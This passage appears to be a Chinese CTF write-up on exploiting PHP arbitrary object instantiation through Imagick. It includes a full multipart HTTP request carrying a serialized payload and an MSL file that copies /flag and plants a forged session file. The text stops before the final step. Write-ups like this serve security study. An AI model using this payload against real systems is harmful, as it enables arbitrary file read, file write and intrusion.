 在 `__wakeup` 这里有个 `call_user_func` 无参调用，同时有个 `new $class($argv)`。在 `__sleep` 这个地方有 `readfile` ，不过有个 `preg_match_all('/[flag]/m', $this->path)`。

这题主要是对于 `new $a($b)` 的利用，可以看这篇[文章](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)来简单了解，对于这道题来说，便需要通过 Imagick 这个类通过写入 session 然后再调用 `session_start` 触发序列化。

感觉这道题的难点在于找到一个能够利用的格式，这里直接看 WP 里提到的了 QwQ，整理一下有以下 poc：

```xml
POST /?data=O%3A13%3A%22fumo_backdoor%22%3A4%3A%7Bs%3A4%3A%22path%22%3BN%3Bs%3A4%3A%22argv%22%3Bs%3A17%3A%22vid%3Amsl%3A%2Ftmp%2Fphp%2A%22%3Bs%3A4%3A%22func%22%3Bs%3A6%3A%22114514%22%3Bs%3A5%3A%22class%22%3Bs%3A7%3A%22Imagick%22%3B%7D&cmd=unserialze HTTP/1.1
Host: 10.21.137.180:18080
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: multipart/form-data; boundary=------------------------SilentE
Content-Length: 814

--------------------------SilentE
Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<group>
<image id="create_sess">
 <read filename="inline:data://image/x-portable-anymap;base64,UDYKOSA5CjI1NQoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAU2lsZW50RXxPOjEzOiJmdW1vX2JhY2tkb29yIjo0OntzOjQ6InBhdGgiO3M6NzoiL3RtcC9zZSI7czo0OiJhcmd2IjtOO3M6NDoiZnVuYyI7TjtzOjU6ImNsYXNzIjtOO30=" />
 <write filename="/tmp/sess_se" />
</image>
<image id="move_flag">
<read filename="mvg:/flag" />
<write filename="/tmp/se" />
</image>
</group>
--------------------------SilentE--
```

模仿前面文章提到的，可以使用 `vid:msl:/tmp/php*` 让他以 msl 格式去读临时文件解析。
首先是 mvg 格式，这个格式没有对头有啥限制，可以直接读文件然后写，这里可以把 `/flag` 文件写入 `/tmp/se`，方便后续利用。
然后是 ppm 格式，具体格式解析可以看这篇[文章](https://blog.csdn.net/qq_38350702/article/details/123215310)，

看懂后可以知道这个格式只需要满足后面填充的字符是 `9*9*3=243` 个就行。
![](https://cdn.silente.top/img/202306242333050.png)

这样就可以写入能被 php 正确序列化的 sess 文件。

然后再用 `session_start` 触发一次 session 序列化就行：
